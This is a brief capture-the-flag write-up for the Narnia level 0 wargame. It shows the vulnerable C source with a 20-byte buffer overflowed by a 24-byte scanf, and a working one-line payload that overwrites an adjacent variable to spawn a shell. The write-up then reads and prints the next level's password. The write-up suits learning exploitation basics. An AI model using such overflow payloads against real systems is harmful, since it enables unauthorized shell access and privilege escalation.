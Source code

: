 # narnia0
slopey112 - 3/5/19

Let's first take a look at our binary and see what it does.
```
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: asdfasdf
buf: asdfasdf
val: 0x41414141
WAY OFF!!!!
```
It seems that if we are able to change the value of `val` to `0xdeadbeef`, we are able to get the flag. This at first seems like an impossible challenge, until we open up the source code.
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
The value that we supply is passed to the address of `buf`. However, it seems like there's ia critical error: `scanf` is asking for 24 bytes, but the size of `buf` is only 20. Without opening GDB we can already find the answer to this problem.

Our payload should overwrite the 20 bytes in `buf` and then everything else is passed to `val`. Since we are given a shell, the only other complication is that we need to pass `cat` in our payload as well.
```
narnia0@narnia:/narnia$ (python -c "print 'A'*20+'\xef\xbe\xad\xde'"; cat) |./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
cd /etc/narnia_pass
cat narnia1
efeidiedae
```
